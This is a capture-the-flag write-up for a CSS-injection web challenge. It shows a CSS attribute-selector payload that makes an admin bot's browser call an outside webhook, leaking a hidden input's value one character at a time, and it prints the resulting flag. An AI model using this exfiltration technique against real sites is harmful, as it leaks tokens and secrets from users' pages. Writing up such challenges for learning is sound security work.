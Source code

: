 ```yaml
---
layout: default
title: Beautiful Styles
---
```


# [WEB] Beautiful Styles
# Description
I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. 
Flag only consists of numbers and uppcase letters and the lower character f.

Author: Junhua

http://challs.nusgreyhats.org:3333

# Approach
Entering the website, we are greeted with the following landing page, consisting of a source code of some web content and also an input for CSS styling.

![Landing Page](../images/beautiful-styles-1.png)

After clicking on the submit button, we are redirected to another page `/submission/submission_id` showing us the preview of how our CSS input has changed the styling of the web content. 
There is also a button to submit our code for judging, which is likely visited by some kind of admin bot.

![Submission Page](../images/beautiful-styles-2.png)

From the source code of the web content that they've shown us, we know that the flag is stored in an input tag, within the "value" attribute.
To exploit CSS injection, we provide the following CSS:

```
input[value^=grey\{] {
    background-image: url(https://webhook.site/XXX)
}
```

Get your own webhook URL [here](https://webhook.site/)

The `^=` selector will lead to the url being accessed if the value attribute starts with the specified string `grey{`, which we know it would be since it is part of the flag format. 
We just need to submit the CSS for judging to let the admin bot execute it. Since the admin bot (judge) is the one making request, its flag value will be the legitimate one which we are looking for, and not the fake flag which we see currently.
When the admin bot loads our CSS, our webhook is called.

From there on, we just need to perform what I call a `Inference-Based Blind Attack` (aka Brute-forcing) to add on additional characters to the value, recording down whenever our webhook receives a request. 
Eventually, it builds up to the following:

`input[value^=grey\{X]`

`input[value^=grey\{X5]`

`input[value^=grey\{X5S]`

`input[value^=grey\{X5S3]`

...

`input[value^=grey{X5S34RCH1fY0UC4NF1ND1T\}]`

![Webhook Requests](../images/beautiful-styles-3.png)

I have provided an automation script in this challenge folder. However, the script has to be run for each character of the flag, up until the last character of the flag `}` is present in the built `currentFlag` variable, which you will need to update each time you run the script. This is because I am not able to figure out a way to let the script know when our webhook gets called by the admin bot.

For keeping track of our flag which is being "built", we can append a `?c={Current Flag Progress}` query parameter to our webhook URL (included in the script). This way, we can monitor which character is next in the flag via the webhook page.

![Flag Progress](../images/beautiful-styles-4.png)

Flag: `grey{X5S34RCH1fY0UC4NF1ND1T}`

Script: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Grey Cat The Flag 2024/Beautiful Styles/solve.py)